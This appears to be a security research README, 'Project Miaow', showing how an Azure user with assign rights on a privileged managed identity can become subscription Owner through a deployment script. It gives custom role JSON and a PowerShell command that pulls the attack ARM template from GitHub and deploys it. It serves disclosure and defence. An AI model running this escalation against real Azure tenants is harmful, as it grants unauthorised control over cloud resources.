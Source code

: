
![image](https://github.com/SecureHats/azure-misfit/assets/40334679/b9eb2782-dac0-4e1f-9252-cfaf346c3259)

# Project Miaow (Managed Identity Adds Owner)

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/256fe70f-02cc-469f-b264-bf942f156a47)


Mr. KFC Harland Sanders has `read` and `assign` permissions on the User-Assigned Managed Identity

### Custom Role User-Assigned Managed Identity User (custom role)  

> This role only gives permissions to `read` and `assign` a user-assigned managed identity to follow the least privilege
> 
```json
{
    "id": "/subscriptions/7570c6f7-9ca9-409b-aeaf-cb0f5ac1ad50/providers/Microsoft.Authorization/roleDefinitions/44e27d73-8dd7-4428-8bda-78406afb75c1",
    "properties": {
        "roleName": "Managed Identity Consumer",
        "description": "",
        "assignableScopes": [
            "/subscriptions/7570c6f7-9ca9-409b-aeaf-cb0f5ac1ad50"
        ],
        "permissions": [
            {
                "actions": [
                    "Microsoft.ManagedIdentity/userAssignedIdentities/*/read",
                    "Microsoft.ManagedIdentity/userAssignedIdentities/*/assign/action"
                ],
                "notActions": [],
                "dataActions": [],
                "notDataActions": []
            }
        ]
    }
}
```

The User Assigned Managed Identity `super-owner` has permission `User Access Administrator` on a specified scope, in this case the subscription level.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/103fe92a-09c9-493b-9865-04fb3df40a94)


Mr. Harland has `Deployment Administrator` permissions on a resource group, and no further permissions within the subscription.

### Custom Role: Deployment Administrator (permissions to create deployment script)  

> This role has less permissions than a `contributor` to follow the least privilege principle.
> 
```json
{
  "roleName": "Deployment Administrator",
  "description": "Configure least privilege for the deployment principal in deployment script",
  "type": "customRole",
  "IsCustom": true,
  "permissions": [
    {
      "actions": [
        "Microsoft.Storage/storageAccounts/*",
        "Microsoft.ContainerInstance/containerGroups/*",
        "Microsoft.Resources/deployments/*",
        "Microsoft.Resources/deploymentScripts/*"
      ],
    }
  ],
  "assignableScopes": [
    "[subscription().id]"
  ]
}
```

Harland has no access to the Resource group where the user assigned managed identity resides nor any other resources groups and resources in Azure.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/68a01789-dace-4a1a-9808-49c10d8f9bbe)

Interesting note: when requesting the permissions of Mr. Harland via PowerShell, only the `Resource Group` permissions are shown.
The custom role assignment to the `user-assigned` are *not* displayed.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/016957aa-92db-4b5d-a881-3c372ecb9ed4)


>
>   

## Proof Of Concept

1. Mr. Harland logs in to Azure PowerShell to deploy the template.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/c977cd5b-e21a-4e43-9d82-40b14a385fce)

2. Deploys an ARM template to the designated resource group that contains a deployment script

```PowerShell
New-AzResourceGroupDeployment `
  -name miaow `
  -ResourceGroupName kentucky-fried-veggies `
  -TemplateObject ((Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/SecureHats/azure-misfit/azurekid/priv-esc/poc/priv-esc-arm-template/azuredeploy.json').Content | ConvertFrom-Json -AsHashtable) `
  -managedIdentityName 'super-owner' `
  -managedIdentityResourceGroup "azure-misfit" `
  -principalId "301dfac7-8f45-48ac-9868-e1f0e875385c"
```

> NOTE: I am invoking the ARM template from GitHub so the repository does not need to be cloned to execute the deployment.

### Provided parameters
```yaml
name:                         The display name of the deployment to the Azure Resource Group
ResourceGroupName:            The name of the resource group which the user has access to
TemplateObject:               The ARM template to deploy to the target resource group.
managedIdentityName:          The name of the managed identity with role assignment permissions on a scope
managedIdentityResourceGroup: The resource group where the managed identity resides
principalId:                  The objectId of the user that is granted permissions via the deployment script
```

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/2e2ec2e8-e3a2-4cef-b474-9734a7f481c9)

During the deployment in the target resource group, a storage account, container instance and deploymentScript resource is created.  

The script in the DeploymentScript is executed in the context of the use assigned managed identity.  
After completion the DeploymentScript will show `Miaow`

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/403a0076-d2ab-4540-9715-f5c022f641c8)

# We are now `OWNER` of the subscription

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/e70829d3-afd9-4e7e-9cb0-ea68185576be)




